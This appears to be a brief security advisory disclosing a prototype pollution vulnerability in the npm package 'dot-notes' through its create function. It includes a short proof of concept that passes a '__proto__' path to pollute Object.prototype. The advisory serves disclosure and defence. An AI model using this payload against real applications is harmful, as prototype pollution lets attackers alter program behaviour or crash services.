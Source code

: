 # Overview

`dot-notes` is a Two way conversions between objects and dot/bracket notation.

This package are vulnerable to Prototype Pollution via. the create function.

# Proof of Concept
```
const dots = require('dot-notes');
dots.create({}, '__proto__.polluted', true);
console.log(polluted);
```